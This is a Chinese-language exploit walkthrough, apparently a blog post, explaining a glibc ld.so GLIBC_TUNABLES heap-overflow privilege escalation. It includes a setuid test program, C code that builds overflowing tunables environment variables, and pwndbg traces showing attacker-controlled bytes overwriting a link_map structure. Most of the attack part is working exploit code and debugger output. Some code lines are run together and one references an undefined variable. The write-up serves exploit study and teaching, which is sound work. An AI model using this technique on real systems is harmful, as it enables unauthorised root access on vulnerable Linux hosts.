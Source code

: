 4.接下来我花一些时间去一步步调试，最后理解清楚该利用思路。为了节省大家时间，这里用一个 demo，然后缩减 exp 的内容，来帮助大家理解该利用思路。  
  
首先写一个测试程序：  
```
// test.c#include <stdio.h>unsigned long ptr = -0x18ULL;int main(int argc, char *argv[]){    printf("Hello World.");    return 0;}// gcc test.c -g -no-pie -o test// ls -alF test// -rwsrwsr-x 1 root root 17224 Oct 13 22:06 test*
```  
  
我们设置的第一个环境变量为：  
```
char fill[0xd00];strcpy(fill, "GLIBC_TUNABLES=glibc.malloc.mxfast=");for (int i = strlen(fill1); i < (0xd00 - 1); i++){        fill[i] = 'A';}fill[0xd00 - 1] = '\0';
```  
  
这部分将会调用__minimal_malloc(0xd00 + 1)  
，这个时候的内存信息如下：  
```
RAX 
 0x7f4109f8f2e0 ?— 0x0     # malloc的返回值pwndbg> vmmap0x7f4109f8c000     0x7f4109f90000 rw-p     4000 37000  /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2> hex(0x7f4109f8f2e0 + 0xd01)'0x7f4109f8ffe1'> hex(0x7f4109f90000 - 0x7f4109f8ffe1)'0x1f'
```  
  
也就是说，这部分内存区域只剩下 0x1f 字节，如果后续还要调用 malloc，那么则会通过 mmap 申请一段新内存区域。  
  
第一部分不会触发溢出漏洞。  
  
设置的第二部分环境变量为：  
```
#define PAYLOAD_SIZE 0x100char payload[PAYLOAD_SIZE];strcpy(payload, "GLIBC_TUNABLES=glibc.malloc.mxfast=glibc.malloc.mxfast=");for (int i = strlen(payload); i < PAYLOAD_SIZE - 1; i++){    payload[i] = 'B';}    payload[PAYLOAD_SIZE - 1] = '\0';
```  
  
第二部分将会调用__minimal_malloc(0x100 + 1)  
，这个时候的内存信息如下：  
```
*RAX  0x7f4109f52000 ?— 0x0     # malloc的返回值pwndbg> vmmap  0x7f4109f52000     0x7f4109f54000 rw-p     2000 0      [anon_7f4109f52]> hex(0x7f4109f52000 + 0x100)'0x7f4109f52100'
```  
  
如果我们构造的代码到此为止，那么下一次 ld 获取内存是位于_dl_new_object  
函数中，调用__minimal_calloc  
函数，调试情况如下所示：  
```
pwndbg> b *(_dl_new_object+109)pwndbg> c   0x7f4908e899fd <_dl_new_object+109>     call   qword ptr [rip + 0x2c06d]     <__minimal_calloc>pwndbg> ni*RAX  0x7f4908e74c40 ?— 0x0
```  
  
调用_dl_new_object  
是为了给struct link_map  
结构体申请内存，所以可以查看一下该结构：  
```
pwndbg> b *(_dl_new_object+115)pwndbg> c   0x7ffaa8c249fd <_dl_new_object+109>: call   QWORD PTR [rip+0x2c06d]        # 0x7ffaa8c50a70 <__rtld_calloc> # __minimal_calloc=> 0x7ffaa8c24a03 <_dl_new_object+115>: mov    r14,raxpwndbg> p *((struct link_map *) $rax)$1 = {  l_addr = 4774451407232463713,  l_name = 0x4242424242424242 <error: Cannot access memory at address 0x4242424242424242>,  l_ld = 0x4242424242424242,  l_next = 0x4242424242424242,  l_prev = 0x4242424242424242,  l_real = 0x4242424242424242,  l_ns = 4774451407313060418,  l_libname = 0x4242424242424242,  l_info = {0x4242424242424242 <repeats 17 times>, 0x696c673a42424242, 0x6f6c6c616d2e6362, 0x74736166786d2e63, 0x3d, 0x0 <repeats 24 times>, 0x2e6362696c673a00, 0x6d2e636f6c6c616d, 0x3d7473616678, 0x0 <repeats 29 times>},
```  
  